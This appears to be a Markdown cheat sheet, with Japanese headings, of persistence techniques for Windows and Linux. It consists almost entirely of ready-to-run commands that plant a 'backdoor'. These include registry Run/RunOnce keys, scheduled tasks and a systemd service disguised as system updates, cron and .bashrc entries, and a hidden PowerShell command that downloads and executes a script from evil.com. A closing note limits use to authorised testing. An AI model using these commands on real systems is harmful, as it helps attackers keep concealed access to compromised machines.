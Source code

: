 # Persistence Techniques

## Windows 永続化

### レジストリ自動実行
```powershell
# Run キーの追加
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\path\to\backdoor.exe"

# RunOnce キーの追加
REG ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" /V "backdoor" /t REG_SZ /F /D "C:\path\to\backdoor.exe"
```

### スケジュールタスク
```powershell
# 新規タスクの作成
schtasks /create /tn "UpdateTask" /tr "C:\path\to\backdoor.exe" /sc daily /st 09:00

# PowerShell を使用したタスク作成
$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NonI -Window Hidden -c 'IEX (New-Object Net.WebClient).DownloadString(''http://evil.com/script.ps1'')'"
$Trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $Action -Trigger $Trigger -TaskName "SystemUpdate" -Description "System Update Task"
```

## Linux 永続化

### Cron ジョブ
```bash
# ルートクーロンに追加
echo "* * * * * /path/to/backdoor" > /etc/cron.d/update-job

# ユーザークーロンに追加
(crontab -l 2>/dev/null; echo "* * * * * /path/to/backdoor") | crontab -
```

### システムサービス
```bash
# システムサービスの作成
cat << EOF > /etc/systemd/system/update-service.service
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
ExecStart=/path/to/backdoor
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable update-service
systemctl start update-service
```

### .bashrc / .profile の改変
```bash
echo "nohup /path/to/backdoor &" >> ~/.bashrc
```

## 注意事項
- これらの永続化技術は、許可された環境でのテストにのみ使用してください
- システムの重要な機能に影響を与える可能性があります
- 実環境での使用は違法となる可能性があります 